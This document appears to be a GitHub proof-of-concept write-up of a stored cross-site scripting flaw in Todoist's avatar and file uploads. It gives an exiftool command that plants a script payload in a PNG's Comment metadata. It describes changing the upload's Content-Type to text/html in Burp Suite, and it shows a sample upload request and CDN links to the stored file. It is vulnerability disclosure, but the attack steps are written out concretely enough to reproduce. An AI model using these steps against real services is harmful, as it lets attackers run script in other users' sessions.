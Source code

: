 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY BRT"))</script>' pngtoxss.png

<img width="608" height="55" alt="111" src="https://github.com/user-attachments/assets/2a274e15-2572-4253-9977-a68a8ed6c9ad" />


    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt('XSS BY BRT'))</script>

<img width="667" height="321" alt="2222" src="https://github.com/user-attachments/assets/eba07ccd-eed0-424d-8a1f-91cb3dd9ed0e" />


    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

   https://d1ysz50cxb9zwl.cloudfront.net/gjChq7hPJqkCspFQePPrGTn5MMGPCCSFt25Yb7XoPOPKU-shwSk7WlAng91qbpXk/by/54863037/as/file.png?Expires=1753944318&Signature=BLtp8mF2G-L2UvIjyWlkhKV0QSBebyVG0shIE~tFDUkJDHEKlFlKkQ0WGvYfqpm0~vWL2rKYUHnp0t-TJ6Hw6Mro02F6etu~n~tsDqwX-HvCh6dj8I2Zam4oKTEIbijNvcBhLY4jCQq0oCgoglNbTS4IKrwlQs5fXDZhvoLuTQw~JnsErmd3Os9XHdxsq5MW7T3-UzqUzoVn2ByUnXhEEL-nvXjsfwa9JFymn3aAwHKbi7Kzo3kJQVlXTPqye7K0Sa2LjUgJ6DyvbmMLH9-oiVQK2MofW1G-PHrhEFC9pO9EfjKXNcx2mvXOBHCo8B9vKiOpNTLQrWZllQGv7aWRWQ__&Key-Pair-Id=APKAJAERRT46LD6FN4NA

   <img width="947" height="441" alt="6" src="https://github.com/user-attachments/assets/33c135f6-b3e4-46da-9060-7cd161eb5320" />


    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.


    
